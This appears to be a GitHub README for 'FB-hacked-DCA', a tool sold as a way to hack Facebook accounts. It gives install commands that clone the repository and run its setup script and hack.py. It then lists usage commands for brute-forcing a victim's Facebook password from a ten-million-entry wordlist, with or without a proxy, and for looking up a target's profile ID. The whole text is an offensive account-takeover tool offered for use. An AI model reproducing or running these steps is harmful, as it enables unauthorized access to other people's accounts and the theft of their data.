 # FB-hacked-DCA

#    Installation

apt update && apt upgrade -y
apt install git -y
git clone https://github.com/Tan-vai/FB-hacked-DCA
cd FB-hacked-DCA
bash setup
python hack.py


# use

# pkg can Use Victim email Or Facebook Profile Id:

 Brute Force On Facebook Account Without proxy:

Command: python facebook_hack.py -t victim@gmail.com -w 10MPASS.txt
Brute Force On Facebook Account With Proxy:

Command: python facebook_hack.py -t victim@gmail.com -w 10MPASS.txt -p 144.217.101.245:3129
Get Target Facebook Profile ID:
Command: python facebook_hack.py -g https://www.facebook.com/zuck
